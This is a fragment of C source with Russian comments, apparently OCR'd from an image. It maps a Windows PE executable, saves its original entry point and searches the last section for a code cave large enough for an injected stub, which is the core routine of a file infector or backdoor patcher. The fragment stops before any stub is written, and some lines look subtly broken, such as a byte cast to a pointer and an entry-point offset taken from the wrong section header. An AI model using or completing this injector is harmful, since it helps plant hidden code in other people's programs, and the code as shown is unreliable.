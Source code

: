     fsize = GetFileSize(hFile, 0);
    if(!fsize){
        printf("[-] Could not get files size\n");
        CloseHandle(hFile);
        return 0;
    }
     
    hFileMap = CreateFileMapping(hFile, NULL, PAGE_READWRITE, 0, fsize, NULL);
    if(!hFileMap){
        printf("[-] CreateFileMapping failed\n");
        CloseHandle(hFile);
        return 0;
    }
 
    hMap = (LPBYTE)MapViewOfFile(hFileMap, FILE_MAP_ALL_ACCESS, 0, 0, fsize);
    if(!hMap){
        printf("[-] MapViewOfFile failed\n");
        CloseHandle(hFileMap);
        CloseHandle(hFile);
        return 0;
    }
     
    // проверяем сигнатуры
    pDosHeader = (PIMAGE_DOS_HEADER)hMap;
    if(pDosHeader->e_magic != IMAGE_DOS_SIGNATURE){
        printf("[-] DOS signature not found\n");
        goto cleanup;
    }
     
    pNtHeaders = (PIMAGE_NT_HEADERS)((DWORD)hMap + pDosHeader->e_lfanew);
    if(pNtHeaders->Signature != IMAGE_NT_SIGNATURE){
        printf("[-] NT signature not found\n");
        goto cleanup;
    }
     
    // берем заголовок последней секции...
    pSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD)hMap + pDosHeader->e_lfanew + sizeof(IMAGE_NT_HEADERS));
    pSection = pSectionHeader;
    pSection += (pNtHeaders->FileHeader.NumberOfSections - 1);
     
    // сохраняем точку входа
    oep = oepRva = pNtHeaders->OptionalHeader.AddressOfEntryPoint;
    oep += (pSectionHeader->PointerToRawData) - (pSectionHeader->VirtualAddress);
     
    // определяем свободное место
    i = pSection->PointerToRawData;
    for(; i != fsize; i++){
        if((char *)hMap[i] == 0x00){
            if(charcounter++ == stubLength + 24){
                printf("[+] Code cave located @ 0x%08lX\n", i);
                writeOffset = i;
            }
        }else charcounter = 0;
    }
 